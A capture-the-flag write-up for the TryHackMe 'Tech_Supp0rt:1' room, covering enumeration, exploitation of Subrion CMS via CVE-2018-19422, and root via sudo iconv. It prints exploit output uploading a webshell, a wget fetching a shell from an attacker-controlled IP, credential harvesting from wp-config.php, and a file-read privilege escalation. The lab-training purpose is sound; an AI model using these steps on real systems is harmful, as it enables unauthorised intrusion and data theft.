 ```yaml
---
layout: default
title: Tech_Support:1
description: THM - Tech_Supp0rt:1
---
```


## Enumeration

Fired up nmap and gobuster.

```
Nmap scan report for <IP>
Host is up (0.067s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: Host: TECHSUPPORT; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
```
/wordpress       (Status: 301) [Size: 316]
/test            (Status: 301) [Size: 311]
/server-status   (Status: 403) [Size: 277]
```
### SMB Enumeration:
```
 Disk                            Permissions
----                             -----------
print$                            NO ACCESS
websvr                            READ ONLY
IPC$                              NO ACCESS
```
Before checking out the web pages, I'll access the “websvr” share and see if there's anything juicy inside.

```
smbclient -N //<IP>/websvr

smb: \> ls
  .                                   D        0  Sat May 29 10:17:38 2021
  ..                                  D        0  Sat May 29 10:03:47 2021
  enter.txt                           N      273  Sat May 29 10:17:38 2021

                8460484 blocks of size 1024. 5693200 blocks available
smb: \> get enter.txt
getting file \enter.txt of size 273 as enter.txt (1.0 KiloBytes/sec) (average 1.0 KiloBytes/sec)
smb: \> exit

cat enter.txt
GOALS
=====
1)Make fake popup and host it online on Digital Ocean server
2)Fix subrion site, /subrion doesn't work, edit from panel
3)Edit wordpress website

IMP
===
Subrion creds
|->admin:[REDACTED] [cooked with magical formula]
Wordpress creds
|->
```

Now this is interesting. We found Subrion credentials. I'll throw them into Cyberchef and see what pops up.

![CyberChef](https://raw.githubusercontent.com/TudM99/tudm99.github.io/main/images/1.png)

We now have the Subrion CMS admin credentials. Let's look around on the website.

first I tried accessing “/subrion”, but then, when it wasn't working, I went backwards, and noticed the entry in “enter.txt”, which states that “/subrion”
doesn't work, and to use the panel. So i tried the next best thing. “/subrion/panel”.
And what do you know! It worked!

![Subrion Panel](https://raw.githubusercontent.com/TudM99/tudm99.github.io/main/images/2.png)

Now, this CMS gracefully provided us with the version, so it won't hurt looking for a CVE, right ?
Bingo!
CVE-2018-19422-SubrionCMS-RCE

Let's try logging in with the credentials we gathered, because the exploit requires authentication.

(Meanwhile I also enumerated the wordpress site and found the user “support”. I'll save it, maybe it'll come in handy)

Aaaand we logged in:

![Subrion Dash](https://raw.githubusercontent.com/TudM99/tudm99.github.io/main/images/3.png)

## Exploitation

Let's try the RCE.

```
python3 SubrionRCE.py -u http://<IP>/subrion/panel/ -l admin -p [REDACTED]
[+] Trying to connect to: http://<IP>/subrion/panel/
[+] Success!
[+] Got CSRF token: [REDACTED]
[+] Trying to log in...
[+] Login Successful!

[+] Generating random name for Webshell...
[+] Generated webshell name: mwfyhhiowaujnqk

[+] Trying to Upload Webshell..
[+] Upload Success... Webshell path: http://<IP>/subrion/panel/uploads/mwfyhhiowaujnqk.phar

$ whoami
www-data
```
I then uploaded another shell, because this one is a bit fucky, and upgraded using a python TTY
```
$ wget http://10.18.116.220:8000/shell.php

$ ls
mwfyhhiowaujnqk.phar
shell.php
zrqcdnixvfcwxop.phar

$ php shell.php

$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@TechSupport:/$
```
We cd into the /opt directory, empty.
Cd into the /home directory, there's the scamsite directory with the “enter.txt” file we found earlier.

So i'll start looking for SUID binaries, since we don't have sudo permissions.
```
find / -perm -u=s -type f 2>/dev/null
```
No luck there, so we start snooping around. You can check default locations, or you can use linpeas.
I opted for linpeas.
```
/var/www/html/wordpress/wp-config.php
define( 'DB_NAME', 'wpdb' );
define( 'DB_USER', 'support' );
define( 'DB_PASSWORD', '[REDACTED]' );
define( 'DB_HOST', 'localhost' );
```
And what do you know, it found a pasword for the user “support”. I'll try to ssh into the machine using the “scamsite” user that we found, and this password.
Aaand it worked.

Let's see what we can do from this user. First of all, I'm gonna ssh into the machine for a more stable shell.

## Privilege Escalation:
```
scamsite@TechSupport:~$ sudo -l
Matching Defaults entries for scamsite on TechSupport:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User scamsite may run the following commands on TechSupport:
    (ALL) NOPASSWD: /usr/bin/iconv
```
scamsite may use iconv to read files. We could use it to read and crack the /etc/shadow file, or the id_rsa from the root folder. But that's not necessary for proof of completion, so we'll just read "/root/root.txt"
```
LFILE=/root/root.txt
sudo iconv -f 8859_1 -t 8859_1 "$LFILE"
```
And we got the flag!

![Flag](https://raw.githubusercontent.com/TudM99/tudm99.github.io/main/images/4.png)

Good hunting o7

[Try it out yourself!](https://tryhackme.com/room/techsupp0rt1)

[back](./)

